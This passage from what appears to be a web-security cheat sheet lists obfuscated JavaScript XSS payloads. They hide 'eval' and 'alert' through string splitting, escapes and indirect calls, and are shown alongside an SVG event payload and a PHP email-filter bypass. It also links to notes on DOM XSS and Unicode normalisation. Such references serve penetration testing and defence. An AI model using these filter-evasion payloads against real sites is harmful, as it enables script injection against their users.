 ````javascript
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
````

## **DOM vulnerabilities**

There is **JS code** that is using **unsafely data controlled by an attacker** like `location.href` . An attacker, could abuse this to execute arbitrary JS code.\
**Due to the extension of the explanation of** [**DOM vulnerabilities it was moved to this page**](dom-xss.md)**:**

{% content-ref url="dom-xss.md" %}
[dom-xss.md](dom-xss.md)
{% endcontent-ref %}

There you will find a detailed **explanation of what DOM vulnerabilities are, how are they provoked, and how to exploit them**.\
Also, don't forget that **at the end of the mentioned post** you can find an explanation about [**DOM Clobbering attacks**](dom-xss.md#dom-clobbering).

## Other Bypasses

### Normalised Unicode

You could check is the **reflected values** are being **unicode normalized** in the server (or in the client side) and abuse this functionality to bypass protections. [**Find an example here**](../unicode-injection/#xss-cross-site-scripting).

### PHP FILTER\_VALIDATE\_EMAIL flag Bypass

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Ruby-On-Rails bypass
